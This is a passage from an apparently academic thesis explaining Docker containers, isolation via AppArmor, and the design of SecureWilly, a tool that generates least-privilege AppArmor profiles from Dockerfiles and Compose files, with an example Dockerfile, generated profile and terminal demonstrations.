Containers had actually been the motivation for Docker's creation. Although they have been around for decades, Docker sought a way to make them easy to use, as it was a fact that people had already been very interested in Linux containers and how they could build something with them, but the problem was that Linux containers were very complicated. Docker's goal was achieved with great success and became the most popular container standard, as it made containers easier and safer to deploy and use, than previous approaches.

A docker container is a standard unit of software that packages up code and all its dependencies, so that the application runs quickly and reliably from one computing environment to another. A docker image is an executable package that includes everything needed to run an application (the code, a runtime, libraries, environment variables, configuration files) or, as it is commonly described, a read-only template used to build containers. The docker container is launched by running the docker image and is actually a runtime instance of the image, as it represents what the image becomes in memory when executed.

Some essential characteristics of docker containers and docker images are the following:
\begin{itemize}
\item Multiple containers, using the same image, can run at the same time sharing a single operating-system kernel, each running as isolated process in user space.
\item The limit of running containers is set by the number of processes that the hardware allows.
\item Whatever happens inside a container, does not affect the image it was made from.
\end{itemize}

Docker is mainly used by developers and sysadmins to develop, deploy, and run applications with containers. The use of Linux containers to deploy applications is called containerization.

Containerization is increasingly popular because containers are: \cite{dockergetstarted}
\begin{itemize}
\item Flexible: Even the most complex applications can be containerized.
\item Lightweight: Containers leverage and share the host kernel.
\item Interchangeable: You can deploy updates and upgrades on-the-fly.
\item Portable: You can build locally, deploy to the cloud, and run anywhere.
\item Scalable: You can increase and automatically distribute container replicas.
\item Stackable: You can stack services vertically and on-the-fly.
\end{itemize}

\subsection{Containerization vs Virtualization}

Containerization is not virtualization, as we described it in previous section, and Docker is definitely not a hypervisor. Containerization is the technique of bringing virtualization to the operating system level. While virtualization brings abstraction to the hardware, containerization brings abstraction to the operating system. \cite{conteintro} Therefore, containerization is more considered as a different kind of virtualization, known as operating-system-level virtualization or container-based virtualization.

Containers and virtual machines are only alike in the fact that they are both designed to provide an isolated environment, in which to run an application. Additionally, in both cases that environment is represented as a binary artifact that can be moved between hosts.

Apart from these similarities, containers and virtual machines are very different between each other and the key that lies on it is that the underlying architecture is fundamentally different between the two. More importantly, the fundamental goals of VMs and containers are different, as the purpose of a VM is to fully emulate a foreign environment, while the purpose of a container is to make applications portable and self-contained. \cite{bookdock}

Some of the advantages of Docker Containers over VMs are the following:
\begin{description}[style=nextline]
\item[Portability]
VMs have finite capabilities, because the hypervisors that create them are tied to the finite resources of a physical machine. Thus, if there are applications running in VMs, it is very difficult to migrate on another host environment. Containers, on the other hand, share the same operating system kernel and package applications with their runtime environments so the whole thing can be moved, opened, and used across development, testing, and production configurations. They provide the portability feature, as they are easily shipped or migrate from one environment to another.

\item[Resource management]
Once some resources are allocated for a VM, it's going to hold them as long as it's running. Moreover, VMs provide an environment with more resources than most applications need. On the other hand, containers do not waste physical resources, because they don't have a separate kernel, but they actually share resources with the host OS. Docker runs a discrete process as a container, taking no more memory than any other executable.

\item[Size and overhead]
All containers are run by a single operating-system kernel and are thus more lightweight than virtual machines. Moreover, while containers' images are typically tens of MBs in size, VMs usually take up tens of GBs. Hardware virtualization and virtual machines are extremely resource heavy. VMs end up taking a lot of RAM space and CPU cycles which ultimately incurs significant performance overhead.

\item[Boot up time]
Since the VM has its own kernel, when it comes to start-up or restart, operating system needs to start from scratch, which will then load all the binaries and libraries. This is time consuming and will prove very costly at times when quick startup of applications is needed.
On the other hand, in case of docker containers, boot up and restart happens very fast because they don't need to start up the kernel every time, since the container runs on the host OS.
\end{description}
\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.75\linewidth]{../figures/vmdocklin.png}
   \caption{Virtual Machines vs Docker Containers on Linux and on other OS}
\end{figure}

The other side of the coin, though, is that there are also some drawbacks when choosing docker containers over VMs. Some of them are listed below:

\begin{description}[style=nextline]
\item[Identical host and guest kernel]
Virtual machines can use any OS as guest machine, not requiring for kernel of host and guest to be identical. However, in container-based virtualization, it is only possible to run containers of the same type as the underlying OS.  It is not possible to run Linux containers on Windows or Mac, because they need Linux kernel to operate. The solution for Mac and Windows users would be to install a hypervisor of Type 2, such as VirtualBox, boot up the Linux machine and then run Linux containers inside of it. This is exactly what Docker for Mac and Docker for Windows do, but they use native hypervisors that come with the respective OS. \cite{dockerall}

\item[Security]
The reason why virtual machines are considered to be more secure, is that containers make system calls directly to the kernel and a low-level software messing with a kernel directly could potentially lead to host machine getting cracked. This opens up a whole verity of vulnerabilities. On the other hand, in case of virtual machines, host and guest machines have the different kernels and are segregated from each other and thus, security is more prominent in case of virtual machines than containers. The one feature a VM usually has is that it is hardware isolated at the chip level through actual instructions: Intel VT-x or AMD-V. There are other ways for intruders to exploit you in these environments (such as rootkits) but they're much harder to install.

The main aspect of security that is at risk in containers is isolation, which is explicitly detailed in the next section while several types of attacks are described in \textit{Chapter 4}. Both VMs and containers can be used to isolate applications from other applications running on the same host. VMs have an added degree of isolation from the hypervisor and are a trusted and battle-hardened technology. Containers are comparatively new, and many organizations are hesitant to completely trust the isolation features of containers before they have a proven track record. For this reason, it is common to find hybrid systems with containers running inside VMs in order to take advantage of both technologies.\cite{bookdock}
\end{description}

\section{Isolation on Docker Containers}
Isolation, as an aspect of security, appears to be a compromise that has to be made, in docker containers. While it is entirely possible to isolate Docker containers like VMs, most standard Docker containers, meaning those running on a basic community or commercial Docker Engine on Linux, are not isolated from each other like VMs. This means you are at the mercy of Linux privilege escalation exploits and bad configurated containers.

The reason why isolation is essential to docker containers is for protecting the host machine from malicious activities committed by containers, as well as among the running containers. The most common instance of such attacks are container breakouts. If a container manages to breakout of its environment, then both host and running containers are at risk. 

In fairness, docker or container bugs that lead to such attacks are rare, taken with extreme seriousness, and tend to be patched by the time they are announced. However, running unsecured containers, often bad configured, which violate isolation by disabling namespaces is a very common issue.

Containers have to follow some rules in order to be isolated. There are features that are responsible for preserving isolation such as kernel namespaces and control groups. Namespaces turn what most people think of as an authorization decision (does process X have permission to access resource Y) into a context or domain decision while cgroups do the same for hardware resources. There are ways, though, to disable them and in that case if the container does not have any other protection wall, the host is in great danger. Moreover, some will point out that not everything in the Linux Kernel is namespaced. Meaning that there are some resources that are not yet isolated.

This is when other security walls and hardening tools, like AppArmor or SELinux, step in. Going beyond the tools that ship with the Kernel, integrating with other tools will help you build some real fortresses. If there is extra work to do for containers, to reach the same level of security as a virtual machine, it is worth it. \cite{isolatiocont}

\subsection{Mandatory Access Control}
Mandatory Access Control (MAC) or policy based access control refers to a type of access control by which the operating system constrains the ability of a subject or initiator - this could be a process or thread - to access or generally perform some sort of operation on an object or target - constructs such as files, directories, TCP/UDP ports, shared memory segments, IO devices, etc. \cite{wikimac}

In a multiple user environment, it is important that restrictions are placed in order to ensure that individuals can only access what they need. Mandatory Access Control (MAC) is one of the two most popular access control models in use. The other one is Discretionary Access Control (DAC). The main difference between them lies in the way they provide access to users. MAC provides access based on levels while DAC provides access by identity of the user and not by permission level. Another major difference between them, which is significant to defending isolation from attackers, is that it is not possible under MAC enforcement for users to change the access control of a resource, but it can only be changed by admins, while DAC access can be provided by other users.\cite{dacmac}

What makes MAC invaluable for Docker Security is its \say{administrator} defined policy, which means that it can confine even root applications.

MAC is implemented using Linux Security Modules (LSM) which enable additionnal checks based on other models than the classical UNIX style security checks. All of those models are based on a policy describing what kind of opeartions are allowed for which process in which context. The currently accepted modules in the official kernel are AppArmor, SELinux, Smack, and TOMOYO Linux. The LSM that SecureWilly is currently using is AppArmor. Docker supports AppArmor LSM as well as SELinux.

Ubuntu, SUSE and a number of other distributions use AppArmor, by default. RHEL (and its variants) use SELinux which requires good userspace integration to work properly. SELinux attaches labels to all files, processes and objects and is therefore very flexible. However configuring SELinux is considered to be very complicated and requires a supported filesystem. AppArmor on the other hand works using file paths and its configuration can be easily adapted. \cite{archlsm}

\subsection{AppArmor}
\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.17\linewidth]{../figures/AppArmor.png}
   \caption{Trademark of AppArmor}
\end{figure}

AppArmor (Application Armor) is a Linux security module that protects an operating system and its applications from security threats. To use it, a system administrator associates an AppArmor security profile with each program, which in our case is a docker container. Profiles are human readable text files residing under /etc/apparmor.d/ describing how binaries should be treated when executed. Docker expects to find an AppArmor policy loaded and enforced.

AppArmor, like most other LSMs, supplements rather than replaces the default Discretionary Access Control (DAC). As such, it's impossible to grant a process more privileges than it had in the first place, but it can also restrict the privileges that a process already grants.

AppArmor applies the mechanism of Mandatory Access Control (MAC) by granting programs only the privileges they need to do their job and nothing else. So if program X needs to access a library Y, DAC first ensures it has adequate permissions to do so, before AppArmor comes into the picture and further locks down the privileges.\cite{appsel}

AppArmor proactively protects the operating system and applications from external or internal threats and even zero-day attacks, by enforcing a specific rule set on a per application basis. Security policies completely define what system resources individual applications can access, and with what privileges. Access is denied by default if no profile says otherwise. \cite{archlsm}

AppArmor profiles describe mandatory access rights granted to given programs and are fed to the AppArmor policy enforcement module using command \say{\textit{apparmor\_parser}}. The more specific the profile is, the more strict it will be. An AppArmor profile includes rules that can either allow access to a resource or deny it. If a MAC check matches a rule, it is allowed, otherwise if there is no matching rule, it is denied.

\subsubsection{Genprof tool vs SecureWilly}

Genprof tool is the official AppArmor tool for profile generation.

Below, there are listed some differences between genprof tool and SecureWilly:

\begin{enumerate}
\item The profile generated by genprof tool is designed to run on host. This means that the profile's rules refer to host's system (paths, namespaces, filesystems etc) and not to our target's, which is the container.
As a result, it will include some more rules because of host's intention to run the program. These rules will not be necessarily harmful, but they still violate our principal rule for least possible permissions.

\item While the profile produced by genprof includes rules that refer to the docker project's processes, among rules referring to host, one profile is produced for all of them, destined to confine host's process. The profiles that SecureWilly produces are destined for each one of the project's services. SecureWilly addresses to multi-service docker projects and creates separate profiles for each service/process. The profiles are adjusted to the task of each service, but they have knowledge of the services' cooperation.

SecureWilly's approach is service-oriented and therefore, the profiles produced are more specific about the task of each service. 

\item One necessary rule for docker containers is \say{file}. Without this rule, they are not able to read their filesystem, which is located on the host. Genprof does not include that rule and therefore, a container with such a profile enforced could not even start.

Frankly, adding this rule manually, is neither difficult nor time-consuming. But user should be aware of it, otherwise he may get in trouble seeking what went wrong.

\item Genprof makes several assumptions depending on the rules extracted and the services that are used and includes some preliminary profiles. While we strongly believe that this procedure is develloped in caution, our principal rule for least possible permissions, prevent us from using a profile which will possibly have more rules than we need.

\item Genprof asks users whether they want to run the test again. What happens though if they reject the proposal? Throughout our research, we have seen that not all rules are extracted from the first run of application train session, but it is essential to run the application multiple times, until it is certain that all necessary rules to make a profile efficient are added. Giving user the choice, might as well mean that the profile will not be complete.

\item Genprof does not use a static analysis, as SecureWilly does. As it is described in Chapter 3, some interesting rules can be extracted from the initiative code.
\end{enumerate}

\chapter{SecureWilly: Design and Implementation}
\begin{figure}[h!]
   \centering
   
\includegraphics[width=0.45\linewidth]{figures/trt.png}
   \caption{Trademark of SecureWilly}
\end{figure}

SecureWilly is the software we created, in order to produce secure and efficient AppArmor profiles. The profiles are adjusted to the given docker project, based on the Principle of Least Privilege, meaning they will allow exclusively a set of actions, determined by the user in a test plan. Any other action will be considered as redundant and will be denied. SecureWilly also supports multi-service docker projects and produces one AppArmor profile per service. The profiles are created, with knowledge of their coordination, the way this is indicated by the test plan. SecureWilly focuses on preserving isolation between host and containers, as well as between running containers themselves.

Apart from the AppArmor profiles, SecureWilly produces some extra assets such as alerts about the vulnerabilities detected on the docker containers of the project, .yml files for each service and metrics/graphs about the behaviour of the services based on the rules produced for the respective AppArmor profiles. 

Figure 3.2 illustrates the architecture of SecureWilly.

\begin{figure}[h!]
   \centering
   
\includegraphics[width=0.8\linewidth]{figures/SecureWilly.png}
   \caption{SecureWilly's architecture}
\end{figure}

\section{User Interface}

SecureWilly's user interface at the moment is rather simple and is represented by a terminal UI.

The user is given instructions at every step and is informed about the rules that must be followed in order to produce an AppArmor profile successfully.

Single service, as well as multi-service projects are supported. There are specific instructions about the forms of syntax of Dockerfile commands and Docker Compose options that are supported by SecureWilly, described in the corresponding sections. The user has the choice not to use Dockerfiles and Docker Compose file for his project, but is obligated to provide the docker commands that will be used for the project.

In order to use SecureWilly, user has to copy the directory Parser on host machine, under a directory where project's Dockerfiles and Docker Compose file exist. The script SecureWilly\_UI which is under the Parser directory has to be executed and the UI will direct user through the whole process.

\subsection{Input}
SecureWilly takes input adjusted on a particular application and uses it to run its static and dynamic parsers and eventually create an AppArmor profile adjusted on the needs of the application and the configuration of docker container(s).

First of all, SecureWilly asks the user to give the \textbf{number of services} that need a profile for the upcoming project. A service is defined by a docker image, either it is built by Dockerfile or is based on an existing image, with or without docker-compose file. Then the user is asked to write \textbf{the name of each service}. If Docker Compose file is used, the services should be identical to the ones used in yml file and given in the same order. If Docker Compose file has not been used, a service's name should be the name of the image used by docker run or docker create commands. Moreover, the names should be unique and not used for other purposes like named volumes, network etc.

Secondly, SecurilyWilly asks if any \textbf{Dockerfiles} are used for each service. The user is prompted to answer \say{N}, if there is no Dockerfile for a service, or give the path to Dockerfile if it exists.

Afterwards, the user is asked to do the same for \textbf{Docker Compose file}. If it exists, the path to it should be given, otherwise the answer should be \say{N}.

All of the requirements up to now, were related to static analysis. Hereupon, SecureWilly requires material related to dynamic analysis part.

SecureWilly will then ask the user whether a network is needed for the project. The answer should be either \say{N} for no, or the \textbf{network's name} for positive answer.

The last part of SecureWilly's requirements is a \textbf{test plan} of the project. The user is prompted to write the basic commands that will be used to run the container, including starting and stopping it and the commands in-between. A script is created, including these commands, and will be used as a test plan to exercise the application's functionality and produce system logs for dynamic analysis.

\subsection{Editing}
As soon as SecureWilly is done with user's input, starts the editing part.

The names of services are used in dynamic analysis so that the profiles produced have corresponding names to the services/images. They are also used to identify the part of yml file or the docker commands that refer to each service. 

The Dockerfiles are getting parsed the way they are in static analysis. If there is no Dockerfile for a service, an empty file is given to static parser.

Docker Compose file gets divided in mini docker compose files for each service and each one is given to static parser.

The network's name is used to create the network with docker command at the beginning of a run in dynamic analysis and is removed at the end of it.

Lastly, the test plan that the user is asked to provide, will be used in dynamic analysis to exercise the services and produce system logs. The runtime flags in the test plan will be examined for known vulnerabilities. Moreover, if there is no Docker Compose file, the test plan will be used to detect the runtime flags used in docker commands, to create mini yml files for each service.

\subsection{Output}
SecureWilly produces \textbf{one profile for each service}. A directory, called parser\_output is created in the parent directory of Parser, and contains the services' profiles produced, each one specified by the name of the service (\textit{service\_profile}). It also contains the \textbf{mini yml files for each service}, as they may be helpful for the user, if willing to create a Docker Compose file, in case it does not already exist. System logs produced from dynamic analysis are included too, as well as all the versions of the profiles produced at each run of dynamic analysis. Finally, there is a directory named \textbf{Alerts} which consists of text files, like Namespaces or Privileged, alerting user about any detected vulnerabilities on the containers.

The user should now copy the profiles in AppArmor directory (usually /etc/apparmor.d/) and load them in kernel (\textit{sudo apparmor\_parser -r -W /etc/apparmor.d/service\_profile}). Then the option security\_opt should be added in Docker Compose file, or flag security-opt (--security-opt "apparmor:service\_profile") inside docker run/create commands.

\section{Static Analysis}
\subsection{Purpose}
The purpose of static analysis is to extract a set of rules from the initiative code of docker image in order to form a preliminary AppArmor profile.

Ideally, the initiative code of a docker image should provide most of the information about the task that the container intends to work on. Docker's concept differs from other virtualization types because it is supposed to run as a process. Therefore if we gather together all the actions we want to make inside the initiative code then the docker container would complete its task immediately and SecureWilly would be informed in a great extent of the container's desired actions.

Of course, there are more complex images, which require more complicated actions like running on interactive containers or sharing network between services etc and thus, not all images' tasks could be gathered together in the initiative code. In this case, we try to extract as many rules as we can in the static analysis phase, and let the profile be enriched in the dynamic analysis phase.
 
What makes static analysis invaluable, is that the rules extracted are not always seen in the system logs that are being examined in dynamic analysis. This derives from the fact that some of these rules are based on human logic assumptions, such as multiple use of USER instruction in Dockerfile. Furthermore, they speed up SecureWilly's performance since the preliminary profile includes rules that could possibly need more than one run of the testplan in order to be extracted in dynamic analysis. Therefore, the more rules SecureWilly achieves to extract in static analysis, the less runs will take place in dynamic analysis.

\subsection{Initiative code}
So where does that “initiative code” of docker images exist?
SecureWilly examines the following parts of docker images in order to create  a preliminary profile in the static analysis phase:

\begin{enumerate}
\item Dockerfile
\item Docker Compose (.yml file)
\item Runtime flags
\end{enumerate}

SecureWilly receives as input, all or whichever of these files are provided by the user (Runtime flags, is not actually a file, but the user is asked to provide some commands and a script is created out of them) and parses them in order to extract some AppArmor rules, as detailed in the following sections. 

\subsection{Dockerfile}
Our first approach was to examine Dockerfile. Dockerfile constitutes a \say{recipe} that tells Docker how to create the image for the container and so, it seemed like a smart idea to parse the documentation of Dockerfile searching for any points related to the isolation of a container. As soon as we detected such points, we tried to match them to AppArmor's documentation and extract some profile rules suitable for the respective docker image.

Dockerfile is a simple text file which includes the build instructions to build the image. The advantage of a Dockerfile over just storing the binary image (or a snapshot / template in other virtualisation systems) is that the automatic builds will ensure you have the latest version available. This is a good thing from a security perspective, as you want to ensure you're not installing any vulnerable software. \cite{whatsdockerfile}

Each Dockerfile builds the image of one service that will be run on a container. However, the AppArmor profiles that SecureWilly produces do not restrict any of the Dockerfile commands. The reason for this is that the image is getting built on the host, whereas the AppArmor profile we produce will be used to secure the container's process and thus the profile will only be enforced as soon as the container is up. This means that the Dockerfile can only give us some direction with its commands of what will the container do, but not exactly its actions.

Bearing in mind that our goal is maintaining host-container isolation, we pointed out some \say{commands} (Docker uses the term instructions instead of commands, as Dockerfile is an instruction file like we mentioned before) that could be used to extract the respective AppArmor rules.

These \say{commands} are given below:
\begin{itemize}
\item VOLUME directories
\item EXPOSE ports
\item USER \& RUN useradd
\item RUN chmod file
\end{itemize}

We will discuss each one of them below.

\subsubsection{VOLUME}

The VOLUME instruction creates a mount point with the specified name and marks it as holding externally mounted volumes from native host or other containers. The value in its string form is a plain string with multiple arguments, such as VOLUME /var/log or VOLUME /var/log /var/db. There is also a JSON array form ([\say{/var/log/}]) but SecureWilly is only dealing with string forms, at the time of writing.

The docker run command initializes the newly created volume with any data that exists at the specified location within the base image.

The most direct way for a container to interfere with host's filesystem is through mounting volumes. Mounting a volume can allow container to see and sometimes edit files on host. Undoubtedly, this constitutes mounting volumes an issue that security tools should handle in order to preserve isolation. What SecureWilly could use from that command, is a matching between host's directory and container's directory. 

Regardless of the great importance of VOLUME command, we came to the decision to exclude it from SecureWilly's Dockerfile searching field. The reason for this is that this command could not provide us the matching we could use to extract an AppArmor rule, but only the container's directory which on its own does not extract a useful rule. The VOLUME instruction does not support specifying a host-dir parameter, but only the container directory. The host directory is declared strictly at container run-time, as it is, by its nature, host-dependent. This is to preserve image portability, since a given host directory cannot be guaranteed to be available on all hosts. For this reason, a host directory cannot be mounted from within the Dockerfile.  The mountpoint must be specified when the container is created or run and thus, we would return to it in Docker-compose and Runtime flags phase.

\subsubsection{EXPOSE}
The EXPOSE instruction informs Docker that the container listens on the specified network ports at runtime. It can be specified whether the port listens on TCP or UDP. If protocol is not specified, Docker sets it to TCP by default.

Forwarding ports, as well as networking in general, is by definition highly associated with isolation since containers can reach out to host or other containers through it. Therefore, if ports are exposed, it means that the container should be able to use tcp or udp networking. Networking should be restricted only to this type of protocols and deny any other networking. This can be done with AppArmor using rule network tcp or network udp.

Although the EXPOSE instruction does not actually publish the port to the host machine, SecureWilly allows tcp/udp networking, since exposing ports essentially gives authorization to publish them to host at runtime. It functions as a type of documentation between the person who builds the image and the person who runs the container, about which ports are intended to be published. Moreover, the exposed ports will be accessible to linked services on the same network, so networking rules in AppArmor profile are needed.

To actually publish the port when running the container, the -p flag should be used on docker run to publish and map one or more ports, or the -P flag to publish all exposed ports and map them to high-order ports.

At the time of writing, AppArmor does not have rules to restrict specific port bindings. It is in its future plans though to provide new rules on networking - see Chapter \textit{Future Work} - and SecureWilly keeps a list of the exposed ports, hoping that restricting specific port bindings will be among them. 

Apart from the expecting rules of port binding, SecureWilly keeps the exposed ports in order to check if one of them belongs to ports with port number below 1024, the so-called well-known ports. In that case, the container needs capability CAP\_NET\_BIND\_SERVICE in order to bind/listen to such ports. In Linux, it is not possible for non-root users to bind low port numbers, unless they have capability CAP\_NET\_BIND\_SERVICE.

All in all, what SecureWilly's static parser does when encounters EXPOSE command, is detecting which protocol between tcp and udp is used and if the port has port number below 1024 and for each case extracts the following rules: \textbf{network tcp} or \textbf{network udp} and \textbf{capability net\_bind\_service}.

\begin{mdframed}[backgroundcolor=tipcolor]
\textbf{Tip}: The docker network command supports creating networks for communication among containers without the need to expose or publish specific ports, because the containers connected to the network can communicate with each other over any port. Therefore, it is recommended to use internal networks for communication among containers.

If communication with the host is needed then port forwarding is the best practice to use and certainly, avoid runtime flag --net=host (see Chapter 4, section \textit{Disabling Namespaces}).
\end{mdframed}

\subsubsection{USER \& RUN useradd}
The USER instruction sets the user name (or UID) and optionally the user group (or GID) to use when running the image and for any RUN, CMD and ENTRYPOINT instructions that follow it in the Dockerfile. At the time of writing, SecureWilly deals only with user names and UIDs.

The RUN instruction will execute any commands in a new layer on top of the current image and commit the results. The resulting committed image will be used for the next step in the Dockerfile. Thus, RUN useradd will add a new user to our image.

Restricting the set of users that can run the docker image, would be very beneficial for our goal to preserve isolation. Unfortunately, user namespaces are not yet supported by AppArmor and rules that refer to specific users do not yet exist.
  
However, SecureWilly barely touches this issue by allowing container's process to switch between users, if it is considered to be appropriate. Static parser uses an algorithm to count the total number of unique users that are either used by USER instruction or added to the docker image by RUN useradd. If switching users is considered to be appropriate then SecureWilly allows it, by adding the two capabilities that are necessary to make it happen, CAP\_SETUID and CAP\_SETGID.

So the rules that are added in that case are \textbf{capability setuid} and \textbf{capability setgid}.
\subsubsection{RUN chmod}

As mentioned above, the RUN instruction executes the command given to it in Dockerfile, and so, obviously RUN chmod will commit chmod's task, which is no other than changing the access permissions of a file system object.

Undeniably, an AppArmor profile that is capable to restrict container's access to filesystem, has a positive impact on maintaining isolation.

Taking this into consideration, when SecureWilly encounters such a command,  static parser breaks down the permission bits given and creates one file rule for the owner of the file and one for others - a similar rule for owning group is not yet supported by AppArmor.

The rules that are extracted by RUN chmod for the owner and others respectively are the following:
\begin{description}[style=nextline]
\item[owner \textless path/to/file\textgreater{} \textless owner's permissions (ix, w, wix, r, rix, rw, rwix)\textgreater]
File rule for owner's pwrmissions.
\item[\textless path/to/file\textgreater{} \textless others' permissions (ix, w, wix, r, rix, rw, rwix)\textgreater]
File rule for other's (world) permissions.
\end{description}

\subsubsection{Example}
An example of a Dockerfile, containing most of the commands we discussed previously, is presented below:

\begin{lstlisting}[style=Dockerfile, caption={Dockerfile example for static analysis}]
FROM ubuntu:latest
MAINTAINER Fani Dimou <fani.dimou92@gmail.com>

#Exposing port 80 tcp
EXPOSE 80/tcp

#Test 1
#Create file hello
#Permissions: By default r to everybody, w only to root
RUN echo "Hello everybody" > hello

#Create 2 users, userA with password A, userB with password B
RUN useradd userA && echo "userA:A" | chpasswd
RUN useradd userB && echo "userB:B" | chpasswd

#Create file greetings
RUN echo "userA says Hello" > greetings

#Test 2
#greetings: userA owner
#Permissions: rwx to userA, r to others
RUN chown userA:userA /greetings
RUN chmod 744 /greetings

ENTRYPOINT /bin/bash
\end{lstlisting}
\hfill\break
The AppArmor profile created by static analysis is the following:
\hfill\break
\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile for example Dockerfile in static analysis}]
#include <tunables/global>

profile dockerfile_info_profile flags=(attach_disconnected,mediate_deleted) {

	capability setuid,  #Needed to switch between users
	capability setgid,  #Needed to switch between users
	network tcp, #Allowing networking with ports forwarding
	capability net_bind_service,  #This capability is needed to bind a socket to well-known ports
	owner /greetings rwix,
	/greetings r,
	file,  #Allows access to containers filesystem
	/var/lib/docker/* r, #Access to layers of filesystem
	deny ptrace (readby, tracedby), #Confront container breakout attacks
}
\end{lstlisting}

In the following listings we compare two containers running the same image, which was built from the Dockerfile above. The first container runs unconfined, which means it runs without using any AppArmor profile, and the second runs with the profile SecureWilly created enforced. Each user - root, userA - will try to read (cat) and write (touch) the files created in Dockefile (hello and greetings).

The container starts with root, who will be the first user to try accessing the files:

\noindent\begin{minipage}{.49\textwidth}
\begin{lstlisting}[caption=Unconfined,style=terminal]
root@2801ad69a688:/# cat hello
Hello everybody
root@2801ad69a688:/# touch hello
root@2801ad69a688:/# cat greetings 
userA says Hello
root@2801ad69a688:/# touch greetings
\end{lstlisting}
\end{minipage}\hfill
\begin{minipage}{.49\textwidth}
\begin{lstlisting}[caption=Profile enforced,style=terminal]
root@d2c77ad8dfcd:/# cat hello  
Hello everybody
root@d2c77ad8dfcd:/# touch hello 
root@d2c77ad8dfcd:/# cat greetings 
userA says Hello
root@d2c77ad8dfcd:/# touch greetings 
touch: cannot touch 'greetings': Permission denied
\end{lstlisting}
\end{minipage}

In the execution of the unconfined container, root has full access to all files. On the other hand, when the profile is enforced, the permissions, as given in Dockerfile, are respected, and not even root can override them - only the owner of greetings, who is userA, has write permissions, neither root nor anybody else. 

Afterwards, userA will try to login and commit the same actions:

\noindent\begin{minipage}{.49\textwidth}
\begin{lstlisting}[caption=Unconfined,style=terminal]
root@2801ad69a688:/# su userA
$ whoami
userA
$ cat hello
Hello everybody
$ touch hello
touch: cannot touch 'hello': Permission denied
$ cat greetings
userA says Hello
$ touch greetings
\end{lstlisting}
\end{minipage}\hfill
\begin{minipage}{.49\textwidth}
\begin{lstlisting}[caption=Profile enforced,style=terminal]
root@d2c77ad8dfcd:/# su userA
$ whoami
userA
$ cat hello
Hello everybody
$ touch hello
touch: cannot touch 'hello': Permission denied
$ cat greetings
userA says Hello
$ touch greetings
\end{lstlisting}
\end{minipage}

The login of userA is successful, due to the capabilities setuid and setgid, which are added by default by docker, and are permitted by SecureWilly's profile in the second container. As expected, userA has read permission to hello but not write and has both read and write permissions to greetings file.

Switching users as well as permissions work perfectly, therefore the rules we extracted from Dockerfile constitute the profile useful and efficient.

\subsection{Docker Compose} \label{dockcomp}
It is a fact that most of the parameters we would like to obtain are not given at build phase but at runtime. Therefore, the material that Dockerfile offers to static analysis is limited, due to portability issues. Runtime parameters would constitute a key factor to create strict and fine-grained AppArmor profiles that reach our goal of containers obeying the Principle of least privilege. Docker offers a solution to this issue, with Docker Compose.

\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.5\linewidth]{figures/dockercompose.png}
   \caption{Trademark of Docker Compose}
\end{figure}

Docker Compose is a tool for defining and running multi-container Docker applications, by using a YML/YAML file (Both yml and yaml work, but SecureWilly uses only yml at the moment). The reason why a yml file is an invaluable tool in our hands is that it provides a configuration for the container which includes a set of parameters that should be given at runtime at docker.

The Docker Compose file configures multiple containers, indicating how they should be built and connected, and where data should be stored. When the YML file is complete, a single command builds, runs, and configures all of the containers (docker-compose up).

After examining the documentation of docker compose, we detected several configuration options that could be used in order to extract AppArmor rules. All of the options we describe below, refer to version 3 of the Compose file format, which at the time of writing, is the newest version.
The list of the options that SecureWilly is parsing currently, is given below:

\begin{itemize}
\item Volumes
\item Expose
\item Ports
\item Capabilities add/drop
\item Ulimits
\item Devices
\end{itemize}

SecureWilly parses the yml file, like Dockerfile was parsed, and for each option on the list, creates the corresponding AppArmor rules, as described below. Examples for docker compose options are omitted, because most of the options are included in Nextcloud's example, which is presented in last chapter.

\subsubsection{Volumes}
Docker compose file's configuration option \say{volumes} is exactly what we were missing from Dockerfile's instruction VOLUME. It specifies mount host's paths or named volumes and gives us the desired binding between host's directory and container's directory.

SecureWilly supports only the short syntax of this option. In the short syntax, the path on the host can be specified by an absolute path mapping or a path relative to the Compose file. Relative paths should always begin with \say{.} or \say{..}. User-relative paths are not supported yet.

Docker Compose gives user the choice to specify only the container's path and let the Engine create a volume but at the moment, SecureWilly assumes that the user gives both paths. Moreover, user can specify named volumes and SecureWilly's static parser will replace the named volumes with the real host path, since it is known that volumes are situated under the path /var/lib/docker/volumes/. 

Lastly, the read only access mode is supported, and in this case SecureWilly allows only read permission to the volume specified.

Taking these points into consideration, we concluded that  SecureWilly should four rules per volume.

